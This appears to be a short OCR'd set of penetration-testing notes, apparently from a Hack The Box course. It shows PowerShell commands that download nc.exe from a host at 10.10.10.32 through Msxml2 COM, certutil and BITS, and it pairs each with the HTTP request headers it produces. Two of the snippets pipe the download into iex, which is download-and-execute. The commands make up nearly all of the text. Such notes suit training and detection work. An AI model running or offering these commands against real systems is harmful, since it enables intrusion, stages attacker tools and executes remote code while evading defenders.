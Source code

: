 #### Msxml2

- Client

```powershell
$h=New-Object -ComObject Msxml2.XMLHTTP;
$h.open('GET','http://10.10.10.32/nc.exe',$false);
$h.send();
iex $h.responseText
```

- Server

```powershell
GET /nc.exe HTTP/1.1
Accept: */*
Accept-Language: en-us
UA-CPU: AMD64
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E)
```

#### Certutil

- Client

```powershell
certutil -urlcache -split -f http://10.10.10.32/nc.exe 
PS C:\htb> certutil -verifyctl -split -f http://10.10.10.32/nc.exe
```

- Server

```powershell
GET /nc.exe HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Accept: */*
User-Agent: Microsoft-CryptoAPI/10.0
```

#### BITS

- Client 

```powershell
Import-Module bitstransfer;
Start-BitsTransfer 'http://10.10.10.32/nc.exe' $env:temp\t;
$r=gc $env:temp\t;
rm $env:temp\t; 
iex $r
```

- Server

```powershell
HEAD /nc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Encoding: identity
User-Agent: Microsoft BITS/7.8
```
